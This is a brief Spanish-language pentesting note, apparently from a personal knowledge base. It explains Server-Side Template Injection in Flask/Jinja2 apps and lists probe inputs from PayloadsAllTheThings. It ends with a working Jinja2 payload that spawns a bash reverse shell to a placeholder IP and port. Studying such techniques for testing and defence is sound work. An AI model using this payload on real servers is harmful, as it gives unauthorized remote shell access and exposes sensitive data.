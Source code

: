 # What is a SSTI?

Un **Server-Side Template Injection** ( **SSTI** ) es una vulnerabilidad de seguridad en la que un atacante puede inyectar código malicioso en una **plantilla** de servidor. 

Las **plantillas** de servidor son archivos que contienen código que se utiliza para generar *contenido dinámico* en una aplicación web. Los atacantes puede aprovechar una vulerabilidad **SSTI** para inyectar código malicioso en una platinllar de servidor, lo que les pertmite ejecutar comandos en el servidor y obtener acceso no autorizado tanto a la apliación web como a posibles datos sensibles. 

----
# Explotation

Cuando solemos ver que un campo que ingresamos, sea de formulario o url, es representado en el output de la página web y sabemos que por detras corre un framework o plantilla como **Django**, **Flask**, **Ruby on Rails**, entre otros, podemos empezar a pensar en un **SSTI**, pudiendo sacar posibles comandos a inyectar de páginas como [Payload All The Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).

De esta manera, supongamos que tenemos decubrimos con **whatweb** o **wapalyzer** que nuestra aplicación corre Flask, ingresamos a la app y vemos que tenemos un campo:

![[SSTI_Example.png]]

El cual vemos que se representa en el output: 

![[SSTI_Example2.png]]

Podemos empezar a probar cosas, en este caso probando inputs como `{{7*7}}`, `{{config.items()}}`, entre otros.  (Todos obtenidos de la sección de [python](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2) de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)), en caso de que veamos un output esperado ante estos payloads, podriamos verificar si se logran ejecutar comandos del sistema con el payload para realizarlo, y en caso de que si, solo quedaria ganar acceso con algun metodo dentro de las [[Shells]]. 

Ejemplo **{% raw %}{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/{ip}/{port} 0>&1"').read() }}{% endraw %}**
